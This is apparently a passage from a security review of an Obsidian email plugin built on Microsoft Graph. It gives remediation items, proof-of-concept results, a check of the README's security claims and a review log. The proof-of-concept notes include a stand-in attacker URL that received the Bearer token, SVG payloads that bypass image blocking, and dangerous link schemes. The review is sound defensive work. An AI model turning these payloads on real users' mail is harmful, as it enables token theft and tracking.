| **R-1** | Validate every outgoing request URL with `new URL()`: `https:` and origin `graph.microsoft.com` only; `encodeURIComponent` all path IDs; validate delta links and page tokens when read from the cache | T-1, T-2, V-2, V-9 | S |
| **R-3** | Replace the `STYLE_BLOCK` regex with a linear scan; cap body size before sanitizing; add a hostile-input timing test | D-1, V-4 | S |
| **R-5** | ~~Bump `dompurify` to 3.4.17~~ (done in 0.12.6). Still open: keep Dependabot security updates on; add a CI step `npm audit --omit=dev --audit-level=high` | E-1, §5.8 | S |
| **R-4** | Add a scheme allowlist inside `openExternal` (`http`, `https`, `mailto`) and confirm before anything else | I-6, V-5 | S |
| **R-6** | Notes: sanitize with `allowRemote: false`, strip `class`, force the fence language to a safe set | T-4, V-6 | S |
| **R-11** | Redirect receiver: ~~ignore links without `code`/`error`~~ (done in 0.14.x). Still open: settle only on a matching `state` | D-2 | S |
| **R-9** | On re-auth, compare the returned email with the stored one; refuse, or wipe the account's cache | S-5 | S |
| **R-12** | Skip auto-fetching inline attachments above a size cap | D-3 | S |
| **R-14** | Sanitize draft HTML before `dangerouslyPasteHTML` | T-7 | S |
| **R-10** | Validate the Client ID as a GUID; add setup guidance on checking the app's publisher | S-1 | S |
| **R-13** | Document: revoking the grant at Microsoft after removal; that co-resident plugins are trusted; that saved mail enters the vault. Surface a failure in `TokenManager.clear()` instead of swallowing it | I-1, I-4, E-3 | S |
| **R-15** | Show the sender address next to the name in the list and header | S-3 | S |
| **R-2** | Render message bodies (and print) in a **sandboxed iframe with a CSP** (`default-src 'none'; img-src data: blob:`); keep the sanitizer as the first layer | T-3, E-1, I-3, I-7, V-3 | M to L |
| **R-7** | CI hardening: `persist-credentials: false`; build in a job with no write token and publish in a second job; `npm ci --ignore-scripts` where possible; pin actions by commit SHA (let Dependabot bump them); explicit `permissions: contents: read` in `ci.yml`; attach build provenance (`actions/attest-build-provenance`); confirm branch protection and required review (AS-5) | T-8, E-4, V-10 | M |
| **R-8** | Cache: offer a "don't cache message bodies" setting, wipe on disable or uninstall where Obsidian allows, and document the at-rest exposure. Evaluate encryption only if a key store exists that co-resident code cannot read | I-2, T-5 | M to L |
| **R-16** | Encode §7 as tests, seeded with the §9 payloads, so regressions fail CI | V-1 to V-10 | M |

---

## 9. Proof-of-concept notes and method

All PoCs were run on 2026-10-24 against commit `3e3643c`. Scratch tests lived under
`tests/` temporarily and are **not committed**; recreate them from the descriptions
here when writing R-16 regression tests.

**Environment:** Node 26.12.1 for unit-level PoCs; Chromium 153.0.8010.12 (Playwright) for
fetch behaviour, with a local HTTP listener logging every request. A positive control
(`url(http://listener/…)`) confirmed the harness sees real fetches. AS-6: re-run
against Obsidian's bundled Chromium before treating results as final.

| PoC | What it does | Result |
|---|---|---|
| **E** | `GraphProvider` with a recording fake `HttpClient`; call `listMessages("inbox", "https://evil.example/collect?x=1")` and `"httpx://not-even-http"` | Both requests carried `Authorization: Bearer …` |
| **F** | Pass each payload through `sanitizeEmailHtml(raw, { allowRemote: false })`, inject the output with `innerHTML` in Chromium, record requests. Payloads: ``, `<svg><filter><feImage href="…"/></filter>…`, `feImage xlink:href`, SVG `filter=`/`mask=`/`marker-end=` `url(http://H/…svg#x)` | Requests reached the listener for each; banner set only for the `xlink:href` and `url()` variants |
| **C** | `emailToNote` with ``, `<pre><code class="language-dataviewjs">…`, `[[x]]`, `![[x]]`, `` `= x` ``, and hostile sender/subject | Remote image and `dataviewjs` fence emitted; wikilinks, embeds, backticks and YAML escaped |
| **G** | Time the `STYLE_BLOCK` and `REMOTE_CSS_REF` regexes on `"<style".repeat(n)` and `"url(//".repeat(n)` | Quadratic: 480 KB takes 36 s (table in §4) |
| **D** | (0.12.5, against the removed `LoopbackServer`) `fetch("/favicon.ico")`, then `fetch("/?code=X&state=wrong")` | First: rejected with "neither code nor error". Second: handed to the caller, whose state check rejects. Now: `redirect-receiver.test.ts` covers the ignore-stray-link case; a forged code+state link still aborts the attempt |
| **B** | Sanitize `<a href="…">` for 15 schemes | Kept: `tel:`, `mailto:`, `cid:`, `data:image/png…`, `//host`, `http(s):`. Stripped: `file:`, `javascript:`, `ftp:`, `smb:`, `ms-msdt:`, `search-ms:`, `vbscript:`, `obsidian:` |
| **A** (disproved) | CSS-escape `url()` variants in Chromium | No request (N-1) |

---

## 10. README claims register

The README's "Security notes" section makes user-facing promises. Status against this review:

| README claim | Status |
|---|---|
| Refresh tokens are in `secretStorage`, backed by the OS keychain, never in `data.json` | Never-in-`data.json`: **verified**. "Backed by the OS keychain": **unverified** (AS-2) |
| Remote images are blocked by default | **Not fully true**: bypasses in T-3. Fix or qualify |
| Links open in the system browser | **Partly true**: they open in Obsidian's Web Viewer when that core plugin is enabled (`host/links.ts`) |
| Message HTML is sanitized (scripts, iframes, handlers, `javascript:` stripped) | **True** for those items; see E-1 for the residual risk |
| No telemetry; only Microsoft APIs and an `obsidian://` protocol redirect | **True** by code review (no other endpoints); T-1 shows the "only Microsoft" property is not enforced |

---

## 11. Review log

| Date | Version | Change |
|---|---|---|
| 2026-10-24 | 0.12.5 | Initial model and threat hunt. Confirmed T-1, T-3, T-4, D-1, D-2; disproved N-1 to N-7 |
| 2026-10-25 | 0.12.6 | `dompurify` 3.4.15 to 3.4.17 (R-5, E-1, §5.8). Behavioural note for T-3: 3.4.15 still ran `uponSanitizeAttribute` hooks on elements it was removing (e.g. `<svg><use xlink:href>`), and the plugin's banner flag relied on that quirk; 3.4.17 does not. The element is deleted either way, so nothing leaks, but it shows the flag-after-the-fact design is fragile: do not depend on hooks seeing removed nodes. The remote-content bypasses in T-3 are unchanged: `feImage href` / `xlink:href` still pass through 3.4.17 |
| 2026-10-25 | 0.12.9 | Dependency posture only (§5.8): `obsidian` 1.13.1 to 1.14.4 clears the moderate `moment`/`obsidian` advisories (dev-only, not shipped). No change to threats, controls or citations |
| 2026-10-25 | 0.12.11 | Dependency posture only (§5.8): `devalue` 5.9.2 to 5.9.4 (lockfile-only, transitive via `svelte`, not shipped) clears the high-severity finding. `npm audit` now reports only the low `quill` advisory (`getSemanticHTML` unused; no fixed release exists). No change to threats, controls or citations |
| 2026-10-28 | 0.14.x | OAuth redirect moved from a localhost loopback listener to the `obsidian://obsidian-email-auth` protocol handler. No port is opened (X3 port-connect vector and the stray-request half of D-2 removed). New residual: any web page or process can open the redirect link, so a forged link can still abort a pending sign-in (D-2, now partly mitigated); PKCE and `state` still prevent code injection (S-2). Superseding a pending sign-in with a new one is intentional. R-11 partly done |
